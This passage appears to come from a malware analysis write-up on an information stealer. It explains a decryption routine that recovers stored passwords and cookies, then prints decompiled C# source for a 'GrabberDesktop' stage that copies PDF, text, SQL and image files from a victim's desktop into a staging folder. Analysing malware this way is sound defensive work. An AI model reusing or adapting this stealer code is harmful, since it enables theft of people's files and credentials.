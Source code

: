 - **Decrypt**: This is where the magic happens. The method uses the **BouncyCastle** library to decrypt the data with the AES-GCM algorithm.

**BouncyCastle is a cryptography library that provides a wide range of cryptographic operations**

    - The decrypted data is then converted into a string (usually passwords, cookies, etc.), and any unnecessary characters like null values or newlines are cleaned up.
    - If something goes wrong (e.g., if the wrong key is used or the data is corrupted), the method catches the error and returns an empty string instead of crashing.

# Stage 5: **GrabberDesktop**

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using Main;

namespace Grabbers
{
	// Token: 0x02000014 RID: 20
	public class Desktop
	{
		// Token: 0x06000037 RID: 55 RVA: 0x000039AC File Offset: 0x00001BAC
		public static void GrabberDesktop()
		{
			try
			{
				Directory.CreateDirectory(Variables.workdir + "\\Grabbers\\DesktopFiles");
				string[] files = Directory.GetFiles(Variables.desktop);
				List<string> list = new List<string>();
				foreach (string text in files)
				{
					string extension = Path.GetExtension(text);
					bool flag = extension == ".pdf" || extension == ".txt" || extension == ".sql" || extension == ".jpg" || extension == ".png";
					if (flag)
					{
						Variables.foundFilesFromDesktop++;
						list.Add(text);
					}
				}
				List<string> list2 = new List<string>();
				foreach (string text2 in list)
				{
					list2.Add(Path.GetFileName(text2));
				}
				for (int j = 0; j < list.Count; j++)
				{
					bool flag2 = File.Exists(Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
					if (flag2)
					{
						File.Delete(Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
					}
					File.Copy(list[j], Path.Combine(Variables.workdir + "\\Grabbers\\DesktopFiles", list2[j]));
				}
			}
			catch
			{
			}
		}
```
